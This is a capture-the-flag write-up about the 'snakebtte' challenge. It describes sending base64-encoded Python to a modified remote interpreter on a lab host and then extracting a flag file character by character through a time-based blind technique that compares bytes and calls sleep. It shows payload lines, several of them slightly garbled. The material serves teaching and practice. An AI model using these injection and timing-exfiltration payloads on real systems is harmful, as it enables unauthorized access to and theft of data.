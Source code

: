 ## snakebtte

This challange was only worth 100 points, but IMHO harder than others as it required some coding - it was also partly broken; the intended solution didn't work. My guess is that python should've returned output here.

nmap 10.10.0.229 -- port 9999/TCP is open

```
$ telnet 10.10.0.229 9999
Trying 10.10.0.229...
Connected to 10.10.0.229.
Escape character is '^]'.
Python 133.7.0 (default, Jul 15 2042, 10:44:58)
[GCC 168.1.1 20180531] on linix
Type "help", "copyright", "credits" or "license" for more information. Long live the Waterlord!
>>> dummy
RG8gbm90IHR5cGUgdW5lbmNyeXB0ZWQhIFRoZSBkaXJ0LXBlb3BsZSBtaWdodCBiZSBsaXN0ZW5pbmcK
>>> 
```

This looked very familiar - it's a modified python prompt.
The text is base64 and decodes to: "Do not type unencrypted! The dirt-people might be listening"
So my guess was python code can be send base64-encoded. e.g.:

import os => aW1wb3J0IHRpbWUK

If you send invalid python code, the shell will disconnect.
However, commands issued do not return any output, except another command prompt ">>>".

First thing was to find out the pyton version and verify python is actually running our commands:
```
import sys
import time
sys.version[0]=='3' and time.sleep(5)

# translates to:
aW1wb3J0IHN5cwo=
aW1wb3J0IHRpbWUK
c3lzLnZlcnNpb25bMF09PSczJyBhbmQgdGltZS5zbGVlcCg1KQo=
```

The shell indeed paused for 5 seconds, so it's python3.

I guessed the path of the FLAG.TXT correctly - trying to open a nonexistent file will cause the shell to terminate.

To verify this, I checked the start of the file - we already know that flags are in the form DORF18{...}.
0 is the position in the file we're trying to brute-force, D is the character to test for.
This verified that FLAG.TXT is the correct file as it sleeps for 10 seconds:

```
import os
import time
f = open('FLAG.TXT', 'r')
data = f.read()
"(data)[0]=='D' and time.sleep(5)
"(data)[1]=='O' and time.sleep(5)
```

It was impossible to do data exfiltration through os.system(), as the system could not reach the outside.
Thus a time-based method can be used (base64-encode each line individually and send it to the server):

```
import os
import time
f = open('FLAG.TXT', 'r')
data = f.read()
"(data)[$1]=='$2' and crash
time.sleep(2)
dummy
exit==
```

Our goal is to compare each byte of FLAG.TXT to a charset and measure how long the query took.
The "dummy" line makes the program return the text from the beginning and is used to verify that there was no disconnect or other problem.

In order to account for 1337-speak and _ as space and to speed up the exfiltration of the flag, the following was used:
_ A B C D E F G H I J K L M N O P Q R S T U V W X Y Z 0 1 3 4 5 7 a b c d e f g h i j k l m n o p q r s t u v w x y z . - 2 6 8 9 { }

I wrapped this up in some very ugly bash code + netcat and measured the time for each run, exfiltrating the flag very slowly.
Only afterwards I noticed I could've used divide-and-conquer (pasting a lot more lines at once) to speed this up reasonably.
However, I managed to get the Flag about 10 minutes before the CTF was shut down. :)

### FLAG
DORF18{Y0U_S33m_T0_Kn0W_BASE64}

